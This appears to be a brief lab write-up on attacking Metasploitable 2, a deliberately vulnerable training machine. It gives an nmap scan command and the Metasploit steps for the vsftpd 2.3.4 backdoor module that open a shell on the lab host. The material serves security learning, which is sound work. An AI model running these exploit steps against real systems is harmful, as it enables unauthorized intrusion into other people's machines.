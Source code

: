 ```yaml
---
description: basic exploitation on metasploitable 2.
---
```


# Exploitation

### Using Zenmap to scan the machine:

`nmap -T4 -A -v 192.168.81.132` cmd on zenmap to scan all open ports.

<figure><img src="../.gitbook/assets/Screenshot from 2023-03-22 02-01-00 (1).png" alt=""><figcaption><p><code>zenmap scan</code></p></figcaption></figure>

### Exploiting port 21

Since FTP port 21 is open, we are going to be exploiting it.

<figure><img src="../.gitbook/assets/Screenshot from 2023-03-22 15-18-38.png" alt=""><figcaption><p>searching for the ftp vuln</p></figcaption></figure>

`use exploit/unix/ftp/vsftpd_234_backdoor` to exploit the vuln.

`set RHOSTS 192.168.81.132` to set the RHOST.

`exploit` run this to exploit the payload.

Success, you now have access to a reverse shell, you can execute linux cmds ie `uname -a` etc.







You can google all the open ports and their exploits.



